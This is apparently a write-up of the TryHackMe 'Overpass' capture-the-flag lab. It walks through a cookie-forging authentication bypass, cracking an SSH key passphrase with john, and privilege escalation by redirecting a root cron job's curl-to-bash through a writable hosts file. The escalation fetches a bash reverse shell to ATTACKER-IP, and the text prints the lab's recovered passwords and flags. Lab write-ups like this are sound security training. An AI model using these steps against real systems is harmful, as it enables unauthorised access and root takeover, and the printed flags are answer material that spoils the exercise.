









# Overpass

- nmap scan shows only port 80 and 22(ssh) are open
- using ffuf or gobuster you find a hidden admin portal on the web server at http://IP/admin
- looking at the login.js script you see that when you enter a correct username and password a cookie is set with the name SessionToken


- with this knowlege we can set our own cookie with the name SessionToken and set the value to true
- I did this with the chrome developer console



upon refresing the page you are greated with an rsa private key and a message




using ssh2john I converted the sshkey to a john hash format 
then using john and the following command I cracked the password
```
john --wordlist rockyou.txt id_rsa.hash --format=ssh
```


password:james13


after logging in and doing an ls of james home dir i see a list of files
todo.txt and user.txt

user.txt
```
thm{65c1aaf000506e56996822c6281e6bf7}
```

the todo.txt file contains the following


Next i located overpass on the system using 

```
which overpass
```
this returned a location for the binary 

```
/usr/bin/overpass
```
Running overpass and selecting the option to retreive all passwords gives me the following output
 


```
System
saydrawnlyingpicture 
```
Lets see what intersting things we can find with a little recon using linpeas.
When we run linpeas on the host we see a few things one of which is a cron job that runs the buildscript we saw mentioned in the todo.txt 
cron is the trypicall way things are automaticly ran on a linux machine (think task scheduler for linux)


we see that the cron job runs curl to a host overpass.thm to get the buildscript.sh and then passes that to bash this is interesting wonder if we can abuse that.

contuning our look at the linpease output we see that the hosts file is writeable by anyone which is not typically the case.


lets check to we have listed there or maybe add to it for our own benift

opening up the host file we see the following



we see that the host listed in the cron job overpass.htm points to the localhost
lets change that to our machine if you are using the vpn use the ip from the vpn if using the attackbox use that ip and setup a revshell

first we have to create the directory structer so that our python serer will match the url the cron job is curling

on your host make a directory called downloads and one inside of there called src
inside of that create a buildscript.sh file

now to set up our reverse shell I am going to use this bash oneline since not every install of netcat has the -e option avalialbe. edit the buildscript.sh file to have the following
```
#!/bin/bash

bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1
```
the stand up your python server using port 80 since your using port 80 you will have to use sudo or run as root 

from the directory where you created your downloads/src folders

```
sudo python3 -m http.server 80
```

also have your nc listener running

```
nc -lvnp ATTACKER-PORT
```

with any luck you get a revshell shortly


```
cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```